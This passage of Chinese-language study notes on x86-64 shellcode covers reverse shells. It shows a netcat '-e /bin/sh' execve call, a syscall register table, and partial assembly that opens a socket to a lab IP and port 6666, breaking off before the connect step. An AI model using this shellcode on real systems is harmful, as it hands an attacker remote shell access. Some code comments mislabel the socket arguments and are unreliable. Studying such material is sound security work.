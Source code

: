 ![image-20220910143949540](6.shellcode.assets/image-20220910143949540.png)

![image-20220910144012568](6.shellcode.assets/image-20220910144012568.png)

## 6.反向shell

### 1.使用netcat -e实现

```
execve("/bin/nc",["/bin/nc","ip","port","-e","/bin/sh"],NULL)
```

### 2.使用 socket

#### 1.黄127bytes

|         | rax        | rdi              | rsi         | rdx  |
| ------- | ---------- | ---------------- | ----------- | ---- |
| socket  | 41（0x29） | SOCK_STREAM（2） | AF_NET（1） | NULL |
| connect | 42（0x2a） | socket返回值     | 地址        | 长度 |
| dup2    | 33（0x21） | socket返回值     |             | 无   |
| execve  | 59（0x3b） | '/bin/sh'        | [/bin/sh]   | NULL |

```
int socket(int domain, int type, int protocol);
int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);

```







```
global _start
section .text
_start:
    ;Socket
    xor rdx, rdx                ; zero out rdx
    mov rsi, rdx                ; AF_NET = 1
    inc rsi                     ; rsi = AF_NET
    mov rdi, rsi                ; SOCK_STREAM = 2
    inc rdi                     ; rdi = SOCK_STREAM
    add ax, 0x29
    syscall                   ; call socket(SOCK_STREAM, AF_NET, 0);
	
    mov r12, rax
    sub rsp,0x10
    mov dword [rsp+0x4],0x869fa8c0		; ip = 192.168.159.134
    mov word [rsp+0x2],0x0a1a			; post = 6666
    mov word [rsp],0x2
    ; Connect = 0x2a
    mov rdi, rax                ; move the saved socket fd into rdi
    mov rsi, rsp                ; move the saved sock_addr_in into rsi
```